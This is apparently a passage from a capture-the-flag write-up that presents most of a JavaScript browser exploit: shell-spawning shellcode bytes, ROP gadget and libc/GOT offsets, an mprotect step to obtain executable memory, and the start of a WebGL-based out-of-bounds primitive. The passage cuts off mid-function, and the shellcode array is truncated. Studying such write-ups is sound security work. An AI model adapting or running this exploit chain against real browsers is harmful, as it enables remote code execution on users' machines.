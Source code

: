 Putting it all together - and computing the previously omitted offsets - we end up with the complete exploit [script](./task/exploit.js). (Helper functions are omitted.)

```JavaScript
// Generated with shellcode.py - just pops a shell
const shellcode_bytes = new Uint8Array([0x6a,0x68,0x48,0xb8,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x2f,0x73,0x50,0x48,0x89,0xe7,0x68,0x72,0x69,0x1,0x1,0x81,0x34,0x24,0x1,0x1,0x1,0x1,0x31,0xf6,0x56,0x6a,0x8,0x5e,0x48,;

// Default ROP gadgets - used to fill registers
const pop_rdi_o  = 0x00000000005758c4n // : pop rdi ; ret
const pop_rsi_o  = 0x00000000005756d5n // : pop rsi ; ret
const pop_rdx_o  = 0x000000000057c279n // : pop rdx ; ret
// mprotect PLT - used to get RWX page
const mprotect_o = 0x05747F0n

// Offset of leaked binary address - vtable of ArrayBuffer
const binary_leak_o    = 0x6d44000n + 0x1c7150n;
// Offset of read function in libc
const libc_leak_o      = 0xf8250n;
// Offset of read GOT entry in binary
const read_got_o       = 0x6FF6688n;
// Offset of environ in libc
const environ_o        = 0x1da320n;
// Offset of target ROP location from leaked stack address (environ)
const ret_o            = 0x1060n;
// Offset of vtable location from the begging of ArrayBuffer with OOB
const ab_vtable_o      = 0x58
// Offset of pointer localtion from the begging of ArrayBuffer with OOB
const victim_pointer_o = 0xa0

function exploit()
{
  console.log('exploit');

  // Build OOB primitives using vulnerabilities and WebGL logic

  const gl     = cnv.getContext("webgl2");
  const tex    = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, tex);

  // One OOB function
  // It represents simetry of exploited vulnerabilities
  function oob(src, dest, sz)
  {
    const pw = sz;
    const ph = 1;

    gl.texImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      pw,
      ph,
      0,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      src
    );

    const fbo = gl.createFramebuffer();
    gl.bindFramebuffer(gl.FRAMEBUFFER, fbo);
    gl.framebufferTexture2D(gl.FRAMEBUFFER, gl.COLOR_ATTACHMENT0,
                            gl.TEXTURE_2D, tex, 0);
```